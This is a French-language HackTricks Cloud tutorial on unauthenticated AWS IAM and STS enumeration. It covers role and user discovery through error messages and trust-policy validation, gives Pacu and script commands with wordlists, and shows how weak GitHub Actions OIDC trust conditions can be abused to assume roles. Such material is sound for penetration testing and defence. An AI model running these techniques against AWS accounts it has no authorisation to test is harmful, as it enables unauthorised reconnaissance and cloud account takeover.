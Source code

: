# AWS - IAM & STS Énumération non authentifiée

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Énumérer les rôles et noms d'utilisateur dans un compte

### ~~Brute-Force de l'Assume Role~~

{% hint style="danger" %}
**Cette technique ne fonctionne plus** car que le rôle existe ou non, vous obtenez toujours cette erreur :

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Vous pouvez **tester ceci en exécutant** :

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Tenter d'**assumer un rôle sans les permissions nécessaires** déclenche un message d'erreur AWS. Par exemple, si non autorisé, AWS pourrait retourner :
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Ce message confirme l'existence du rôle mais indique que sa politique d'assomption de rôle ne permet pas votre assomption. En revanche, **tenter d'assumer un rôle non-existant conduit à une erreur différente** :
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Cette méthode pour **discerner entre les rôles existants et non existants** est applicable même à travers différents comptes AWS. Avec un ID de compte AWS valide et une liste ciblée de mots, on peut énumérer les rôles présents dans le compte sans rencontrer de limitations inhérentes.

Vous pouvez utiliser ce [script pour énumérer les principaux potentiels](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) exploitant ce problème.

### Politiques de confiance : Forçage brutal des rôles et utilisateurs inter-comptes

Configurer ou mettre à jour la politique de confiance d'un **rôle IAM implique de définir quelles ressources ou services AWS sont autorisés à assumer ce rôle** et à obtenir des identifiants temporaires. Si la ressource spécifiée dans la politique **existe**, la politique de confiance est enregistrée **avec succès**. Cependant, si la ressource **n'existe pas**, une **erreur est générée**, indiquant qu'un principal invalide a été fourni.

{% hint style="warning" %}
Notez que dans cette ressource, vous pourriez spécifier un rôle ou un utilisateur inter-comptes :

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Voici un exemple de politique :
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

C'est l'**erreur** que vous trouverez si vous utilisez un **rôle qui n'existe pas**. Si le rôle **existe**, la politique sera **sauvegardée** sans aucune erreur. (L'erreur est pour la mise à jour, mais cela fonctionne également lors de la création)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Vous pouvez automatiser ce processus avec [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Ou en utilisant [Pacu](https://github.com/RhinoSecurityLabs/pacu) :

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Le rôle `admin` utilisé dans l'exemple est un **rôle dans votre compte à être usurpé** par pacu pour créer les politiques nécessaires à l'énumération

### Privesc

Dans le cas où le rôle a été mal configuré et permet à quiconque de l'assumer :

![](<../../../.gitbook/assets/image (35).png>)

L'attaquant pourrait simplement l'assumer.

## Fédération OIDC de tiers

Imaginez que vous parvenez à lire un **workflow Github Actions** qui accède à un **rôle** à l'intérieur d'**AWS**.\
Cette confiance pourrait donner accès à un rôle avec la **politique de confiance** suivante :
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Cette politique de confiance pourrait être correcte, mais **l'absence de conditions supplémentaires** devrait vous inciter à la méfier.\
C'est parce que le rôle précédent peut être assumé par **N'IMPORTE QUI depuis Github Actions** ! Vous devriez également spécifier dans les conditions d'autres éléments tels que le nom de l'org, le nom du repo, l'env, la branche...

Une autre mauvaise configuration potentielle est **d'ajouter une condition** comme la suivante :
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Notez l'**astérisque** (\*) avant le **deux-points** (:). Vous pouvez créer une organisation telle que **org\_name1** et **assumer le rôle** à partir d'une Action Github.

## Références

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)
* [https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/](https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
